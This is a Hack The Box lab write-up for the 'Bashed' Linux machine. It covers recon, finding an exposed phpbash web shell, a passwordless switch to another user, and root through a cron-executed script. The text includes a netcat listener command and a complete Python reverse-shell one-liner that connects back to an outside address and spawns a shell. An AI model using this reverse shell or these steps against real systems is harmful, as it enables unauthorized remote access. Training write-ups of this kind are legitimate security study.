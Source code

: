 ```yaml
---

title: " Write Up for BASHED "

categories:
  - Hack The Box
tags:
  - Linux
  - HTB

---
```


# BASHED

This is an easy box based on linux 

---


## Reco

Time to scan, for this one i used ZenMap : 
![alt text](/assets/images/bashed/zenmap.png?raw=true "zenmap")

We find the port 80, let's check it out.

![alt text](/assets/images/bashed/website.png?raw=true "web")

The site looks like a presentation for a Reverse Shell in PHP, their is also a link for it on GitHub.

The tool is name "phpbash.php", it might be present on the website, who knows ?

Let's try the same URL as shown in GitHub: http://10.10.10.68/upload/phpbash.php 

ahh nothing

Time To dirb !
![alt text](/assets/images/bashed/dirb.png=250x "dirbuster")

Ok we found it ! http://10.10.10.68/dev/phpbash.php

So, i guess we have a reverse shell already?
![alt text](/assets/images/bashed/php.png?raw=true "phpbash")

Lets upload LineNum.sh to get some informations.
![alt text](/assets/images/bashed/getLinenum.png?raw=true "phpbash")

We have some users
![alt text](/assets/images/bashed/user.png?raw=true "userlist")

 and some interresting things 
![alt text](/assets/images/bashed/nooPass.png?raw=true "nopasswd")

## Exploit

Ok so this mean we can su to scriptmanager without a password, thats great ! 

![alt text](/assets/images/bashed/userflag.png?raw=true "flag")

And we own the user :)

phpbash does not have a lot of permission so it's time to get a proper REshell.

For this one i'm using nc for the server : 

```bash
nc -nvlp 1234 
```

and python for the client : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](/assets/images/bashed/reshellbien.png?raw=true "Autoruns")

No its time to privesc, lets check out some linux stuff.

We can see a directory name scripts at the root that contain a basic python script wich is executed 
regularly and got root privileges.

![alt text](/assets/images/bashed/scripts.png?raw=true "script")

let's upload our reverse shell here..

I'm using a python script for this one.

![alt text](/assets/images/bashed/rooot.png?raw=true "root")

Aaaaand we are Root !




